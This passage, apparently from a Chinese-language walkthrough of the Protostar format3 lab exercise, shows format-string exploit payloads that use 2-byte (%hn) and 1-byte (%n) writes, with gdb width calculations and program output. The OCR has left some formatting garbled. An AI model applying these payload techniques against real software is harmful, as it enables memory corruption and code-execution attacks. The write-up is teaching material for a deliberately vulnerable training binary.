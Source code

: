 ```
  $7 = **21570****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"%250x%13$hn" +         **# Adding Width = 250** 
"%21570x%12$hn"'       ** # Adding Width = 21570**
| /opt/protostar/bin/format3
��                                                                                                                                                                                                                                                         0
...(snip for A LOT OF white spaces)...
                                                       bffff590
**you have modified the target :)    <-- Winning Statement!**
```

太好了。第二种方法也成功了，我们可以看到我们的胜利宣言！

## 利用解决方案#3 (1 字节写入)

最后一种解决方案是 1 字节写入。执行这种利用的流程非常类似于 2 字节写方法，但是我们将利用地址位置的每个字节。

```
**### Examine the "target" address in hex
(gdb) x/wx 0x80496f4**
  0x80496f4 <target>:    **0x00|00|00|00**
                              ⬇
       **0x00**           **00**             **00**             **00**
       ------------------------------------------------------
       **0x80496f7**      **0x80496f6**      **0x80496f5**      **0x80496f4**
```

让我们向每个地址位置写入一些值:

```
$ python -c 'print 
"\xf4\x96\x04\x08" +     **# Little-Endian format of 0x80496f4**
"\xf5\x96\x04\x08" +     **# Little-Endian format of 0x80496f5**
"\xf6\x96\x04\x08" +     **# Little-Endian format of 0x80496f6** 
"\xf7\x96\x04\x08" +     **# Little-Endian format of 0x80496f7** 
"%12$n" +                **# Writing into 0x80496f4**
"%13$n" +                **# Writing into 0x80496f5** 
"%14$n" +                **# Writing into 0x80496f6** 
"%15$n"'                 **# Writing into 0x80496f7**
| /opt/protostar/bin/format3�����
target is **10101010** :(
```

让我们根据目标值`0x01025544`进行正常的宽度场计算过程:

```
**[Width Calculation #1: "f4"]
____________________________________________________________________****(gdb) print 0x44 - 0x10**
  $1 = 52**>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52**
"%13$n" + 
"%14$n" + 
"%15$n"' 
| /opt/protostar/bin/format3����                                                   0
target is 444444**44** :( **[Width Calculation #2: "f5"]
____________________________________________________________________****(gdb) p 0x55 - 0x44**
  $8 = 17**>>> Payload**
```